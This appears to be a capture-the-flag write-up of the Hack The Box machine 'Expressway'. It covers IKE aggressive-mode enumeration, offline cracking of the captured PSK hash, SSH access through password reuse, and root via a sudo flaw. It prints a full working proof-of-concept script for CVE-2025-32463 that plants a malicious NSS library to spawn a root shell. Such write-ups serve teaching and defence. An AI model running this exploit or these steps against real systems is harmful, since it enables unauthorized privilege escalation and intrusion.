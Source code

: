 ```yaml
---
title: Expressway Writeup
date: 2025-10-01 20:00:00 +0000
categories:
  - Writeups
lang: en
tags:
  - HTB machines
  - IKE
  - VPN
description: Expressway HTB Writeup
image:
  path: '/assets/img/images/posts/expressway/Pasted image 20251001183550.png'
---
```

### Summary

Expressway is an HTB machine that exploits IKE aggressive mode, which exposes the PSK hash during the handshake on cleartext. Cracking this hash reveals valid VPN credentials, which, due to password reuse also grant SSH access. After logging in, a vulnerable sudo version is leveraged to escalate privileges to root.  
### Expressway Writeup

We start with Nmap to check for open ports

![[2025-10-01_21-43.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-43.png" | relative_url }}){: width="85%" } 

to get more details about version of SSH `-p 22 -sVC` to check for any outdated version or any interesting info.

![[2025-10-01_21-45.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-45.png" | relative_url }}){: width="85%" }

As this does not seem to be a way in (but at least we can confirm we have a `Debian` target based on the output.) we can also try to check for UDP ports, I found port 500 which Nmap says is probably the service `isakmp` (**Internet Security Association and Key Management Protocol**), having that port open.

![[2025-10-01_21-51.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-51.png" | relative_url }}){: width="85%" }

I found this useful cheat sheet on [Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html) about pentesting port `500 (IKE/IPsec)`.

**Description from manual**  
`ike-scan - Discover and fingerprint IKE hosts (IPsec VPN servers)`

we can use this tool to be able to interact with the service. In this case using `-M` option gives multi-line output which can help for readability.

**Output**
![[Screenshot From 2025-10-01 21-52-23.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-52-23.png" | relative_url }}){: width="85%" }

`1 returned handshake; 0 returned notify: This means the target is configured for IPsec and is willing to perform IKE negotiation.`

### Before proceeding let's take a moment to understand IKE.

**IKE (Internet Key Exchange)** is the protocol used to establish secure tunnels in IPsec VPNs. It operates in two modes.

**Main Mode**  
it builds the IKE Security Association in six steps. First, the initiator sends proposals for encryption and authentication, and the responder picks one. Then they exchange Diffie-Hellman keys and other data to create a shared secret. Finally, both sides authenticate each other. Identities and authentication data are encrypted, because the secure channel is established **before any sensitive information is exchanged**. After this, IPSec negotiation begins.

**Aggressive Mode**  
sets up the IKE Security Association in just three messages, which makes it faster than Main Mode. The initiator sends all its details first, the responder replies with its proposal, key exchange data, and identity, and then the initiator confirms. Quick and simple. but here’s the problem, both identities are sent in plain text before the channel is secure.

If you’re using a pre-shared key (PSK), it gets worse. The second and third messages include hashes based on the PSK, and these are also exposed. An attacker can capture them and run offline brute-force or dictionary attacks to recover the PSK.

with that in mind we can use `ike-scan` to try to use aggressive mode with the target with `-A`

![[Screenshot From 2025-10-01 21-52-38.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-52-38.png" | relative_url }}){: width="85%" }

As the target accepts aggressive mode it is useful for us as we can capture the hash during the handshake process we tell `ike-scan` to save the hash on the file `hash` using `--pskcrack`

![[Screenshot From 2025-10-01 21-53-56.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-53-56.png" | relative_url }}){: width="85%" }

![[2025-10-01_21-55.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-55.png" | relative_url }}){: width="85%" }

also we get

**The ID from the output of ike-scan:** `ike@expressway.htb` so `ike` could be used as our user to log in to SSH

To crack the hash we use `psk-crack` specify wordlist with `-d` and the `hash` file we captured

after cracking we get  
`freakingrockstarontheroad`

![[Screenshot From 2025-10-01 21-55-58.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-55-58.png" | relative_url }}){: width="85%" }

And we can use it to SSH to the target.

![[Screenshot From 2025-10-01 21-56-51.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-56-51.png" | relative_url }}){: width="85%" }

And we got user flag!

While doing some enumeration, we run `sudo -V` to see the current version.

![[Screenshot From 2025-10-01 21-57-28.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-57-28.png" | relative_url }}){: width="85%" }

And with a little bit of help from `searchsploit`.

![[2025-10-01_21-57.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-57.png" | relative_url }}){: width="85%" }

to our pleasant surprise it is vulnerable.

to get root we can use this exploit **CVE-2025-32463**.

But before that a short explanation of what is going on under the hood.

>CVE-2025-32463 is a vulnerability in `sudo` where the `-R` (chroot) option is not properly secured. When `sudo` uses `-R`, it changes its root directory before completing all security checks. 
>
>This allows an attacker to create a fake environment with a malicious `nsswitch.conf` and a crafted `libnss_*.so` library. During execution, `sudo` loads this library inside the chroot, which runs as root, giving the attacker full privilege escalation.
{: .prompt-info }


```bash
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 */
    setregid(0,0);          /* change  to GID 0 */
    chdir("/");             /* exit from chroot */
    execl("/bin/bash","/bin/bash",NULL); /* root shell */
}
EOF

# 2. Mini chroot with toxic nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. compile libnss_
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
sudo -R woot woot                 # (-R <dir> <cmd>)
                                   # • the first “woot” is chroot
                                   # • the second “woot” is and inexistent
command
                                   #   (only needs resolve the user)

rm -rf "$STAGE"
```

After saving to `exploit.sh` and running...
![[Screenshot From 2025-10-01 21-59-56 3.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-59-56 3.png" | relative_url }}){: width="85%" }

We get **root**.

![yay](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExd2h1NTZ0am1saTJ6djZ1bThhYWNmMW0yMnVidHRlY3Y4MWhyNTA2aSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/G1vplGMypxBcp7kx32/giphy.gif)

### How to prevent these vulnerabilities

1. Avoid using Aggressive Mode for IPsec VPNs, as it exposes sensitive data.

2. Do not reuse credentials across services. 
   
3. Keep systems and software updated to patch known vulnerabilities.
